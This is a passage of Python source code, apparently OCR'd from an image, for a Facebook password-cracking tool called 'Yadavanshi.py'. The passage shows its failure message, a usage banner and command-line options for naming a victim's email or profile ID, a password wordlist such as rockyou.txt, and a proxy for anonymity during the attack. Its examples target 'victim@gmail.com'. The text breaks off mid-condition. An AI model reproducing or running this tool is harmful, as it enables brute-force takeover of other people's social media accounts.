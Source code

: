     if issuccess ==0:
      print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"I Can't Find The Correct Password In [ "+yl+wordlist+wi+" ] "+rd+":("+yl+"!"+wi)
      print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Other Wordlist File "+gr+":)"+wi)
    exit(1)
 
parse = optparse.OptionParser(yl+"""
Usage: python ./Yadavanshi.py [OPTIONS...]
-------------
OPTIONS:
|--------------------------------------------|
|-t <target email> [OR] <FACEBOOK ID>        |
|Specify target Email [OR] Target Profile ID |
|--------------------------------------------|
|-w <wordlist Path>                          |
|Specify Wordlist File Path                  |
|--------------------------------------------|
|-s <single password>                        |
|Specify Single Password To Check            |
|--------------------------------------------|
|-p <Proxy IP:PORT>                          |
|Specify HTTP/S Proxy (Optional)             |
|--------------------------------------------|
|-g <TARGET Facebook Profile URL>            |
|Target Facebook Profile URL For Get HIS ID  |
|--------------------------------------------|
 
Examples:
 
|--------------------------------------------|
| python Yadavanshi.py -t victim@gmail.com       |
|-w /usr/share/wordlists/rockyou.txt         |
|--------------------------------------------|
| python Yadavanshi.py -t 100001013078780        |
|-w C:\\Users\\Me\\Desktop\\wordlist.txt     |
|--------------------------------------------|
| python Yadavanshi.py -t victim@hotmail.com     | 
|-w D:\\wordlist.txt -p 35.236.37.121        |
| default(port=8080,80)                      |
|--------------------------------------------|
| python Yadavanshi.py -t victim@gmail.com       |
|-s 1234567                                  |
|--------------------------------------------|
| python Yadavanshi.py                           |
|-g https://www.facebook.com/YouthHacker      |
|--------------------------------------------|
""")
def Main():
   parse.add_option("-t","--target",'-T','--TARGET',dest="taremail",type="string",
      help="Specify Target Email ")
   parse.add_option("-w","--wordlist",'-W','--WORDLIST',dest="wlst",type="string",
      help="Specify Wordlist File ")
   parse.add_option("-s","--singe","--S","--SINGLE",dest="single",type="string",
      help="Specify Single Password To Check it")
   parse.add_option("-p","-P","--proxy","--PROXY",dest="proxy",type="string",
                        help="Specify HTTP/S Proxy To Be Anonymous When Attack Enable")
   parse.add_option("-g","-G","--getid","--GETID",dest="url",type="string",
                        help="Specify TARGET FACEBOOK PROFILE URL")
   (options,args) = parse.parse_args()
   if options.taremail !=None and options.wlst !=None and options.proxy !=None: